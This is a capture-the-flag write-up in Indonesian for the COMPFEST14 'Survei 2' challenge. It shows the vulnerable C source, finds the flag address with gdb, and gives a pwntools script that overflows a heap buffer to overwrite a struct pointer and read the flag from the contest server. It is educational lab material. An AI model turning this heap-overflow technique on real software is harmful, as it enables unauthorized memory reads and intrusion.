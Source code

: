 # Survei 2

> Write-up author: jon-brandy

## DESKRIPSI:

[survei](https://github.com/jon-brandy/COMPFEST14-BAY-WU/blob/fc9adddd6a2a7e8ab233bfe618bcc4bbb0e2a097/Asset/Binary%20Exploitation/Survei%202/survei)

[survei.c](https://github.com/jon-brandy/COMPFEST14-BAY-WU/blob/fc9adddd6a2a7e8ab233bfe618bcc4bbb0e2a097/Asset/Binary%20Exploitation/Survei%202/survei.c)

## LANGKAH-LANGKAH:
1. Pertama unzip file `.zip` yang diberikan.

> HASIL

![image](https://user-images.githubusercontent.com/70703371/188115991-f41b2102-387b-4dc2-8b61-d96f4c96a2b0.png)

2. Jalankan `chmod +x survei` agar program dapat dieksekusi.
3. Setelah itu cek terlebih dahulu proteksi yang diberikan pada program dengan menjalankan `checksec --file survei`.

> HASIL

![image](https://user-images.githubusercontent.com/70703371/188116853-8e5e5d5a-7724-49d7-a77f-aef5d4b51e69.png)

4. Dikarenakan **no pie** menandakan memory yang tersimpan akan selalu berada di tempat yang sama.
5. Selanjutnya cek source-code yang diberikan.

> SURVEI.C

```c
#include<stdio.h>
#include<stdlib.h>

struct data {
    char *str;
};
char flag[40];
struct data *survei[8];

void printMenu() {
    printf("1. Isi survei\n2. Lihat survei\n3. Keluar\n> ");
}

void isiSurvei() {
    int p;
    printf("Di manakah survei ingin disimpan?: ");
    scanf("%d", &p);
    printf("Isi survei: ");
    scanf("%s", survei[p]->str);
    printf("Survei berhasil disimpan di: %d\n", p);
}

void lihatSurvei() {
    int p;
    printf("Survei manakah yang ingin dilihat: ");
    scanf("%d", &p);
    printf("%s\n", survei[p]->str);
}

int main(int argc, char const *argv[]) {
    setvbuf(stdout, NULL, _IONBF, 0);
    FILE *fp = fopen("flag.txt", "r");
    fgets(flag, 40, fp);
    
    int i;
    for (i = 0; i < 8; i++) {
        survei[i] = malloc(sizeof(struct data));
        survei[i]->str = malloc(32);
    }
    
    while (1) {
        printMenu();
        int choice;
        scanf("%d", &choice);
        if (choice == 1) {
            isiSurvei();
        } else if (choice == 2) {
            lihatSurvei();
        } else {
            printf("Bye.\n");
            return 0;
        }
    }
}

```

6. Setelah melakukan analisis source-code, nampaknya kita hanya perlu mencari address dari flag dan melakukan padding sebanyak 48.

> NOTES

```
48 -> size buffer dari flag + size buffer dari struct pointer survei
```

7. Saya menggunakan `gdb` untuk mencari address dari flag

> GDB

![image](https://user-images.githubusercontent.com/70703371/188117558-f41cd6bc-1bf5-4d3b-9ff7-0ae4e2a0df3a.png)

> ADDRESS FLAG

```
0x6010e0
```

8. Langkah selanjutnya kita harus melakukan heap overflow dan mengontrol `return address`, untuk itu saya menggunakan **pwntools** di script python sebagai berikut:

```py
import os
from pwn import *

os.system('clear')

sh = remote('103.185.38.238', 17835)

p = b'A' * 48
p += p64(6295776) # decimal value dari address flag

sh.sendline(b'1')
sh.sendline(b'0')

sh.sendline(p)

sh.sendline(b'2')
sh.sendline(b'1')

sh.interactive()
```

> OUTPUT

![image](https://user-images.githubusercontent.com/70703371/188119904-007c08a6-42e1-49bd-8e31-5891c4f2cb68.png)


## FLAG

```
COMPFEST14{N0wY0U_knoW_heapOv3rflow}
```
